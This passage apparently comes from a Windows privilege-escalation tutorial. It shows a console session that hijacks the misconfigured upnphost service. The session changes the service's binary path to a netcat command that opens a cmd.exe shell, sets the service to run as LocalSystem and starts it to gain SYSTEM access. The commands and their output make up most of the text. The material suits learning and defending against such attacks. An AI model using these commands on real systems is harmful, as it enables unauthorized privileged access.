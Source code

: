 C:\> sc qc upnphost

[SC] GetServiceConfig SUCCESS

SERVICE_NAME: upnphost
        TYPE               : 20  WIN32_SHARE_PROCESS
        START_TYPE         : 3   DEMAND_START
        ERROR_CONTROL      : 1   NORMAL
        BINARY_PATH_NAME   : C:\WINDOWS\System32\svchost.exe -k LocalService
        LOAD_ORDER_GROUP   :
        TAG                : 0
        DISPLAY_NAME       : Universal Plug and Play Device Host
        DEPENDENCIES       : SSDPSRV
        SERVICE_START_NAME : NT AUTHORITY\LocalService
		
C:\> sc config upnphost binpath= "C:\nc.exe -nv 127.0.0.1 9988 -e C:\WINDOWS\System32\cmd.exe"
[SC] ChangeServiceConfig SUCCESS

C:\> sc config upnphost obj= ".\LocalSystem" password= ""
[SC] ChangeServiceConfig SUCCESS

C:\> sc qc upnphost

[SC] GetServiceConfig SUCCESS

SERVICE_NAME: upnphost
        TYPE               : 20  WIN32_SHARE_PROCESS
        START_TYPE         : 3   DEMAND_START
        ERROR_CONTROL      : 1   NORMAL
        BINARY_PATH_NAME   : C:\nc.exe -nv 127.0.0.1 9988 -e C:\WINDOWS\System32\cmd.exe
        LOAD_ORDER_GROUP   :
        TAG                : 0
        DISPLAY_NAME       : Universal Plug and Play Device Host
        DEPENDENCIES       : SSDPSRV
        SERVICE_START_NAME : LocalSystem
		
C:\> net start upnphost


 

Service Shell (upnphost)

 

 

 

 

 

 

 

 

We will not always have full access to a service even if it is incorrectly configured. The image below is taken from Brett Moore's presentation on Windows privilege escalation, any of these access rights will give us a SYSTEM shell.

 
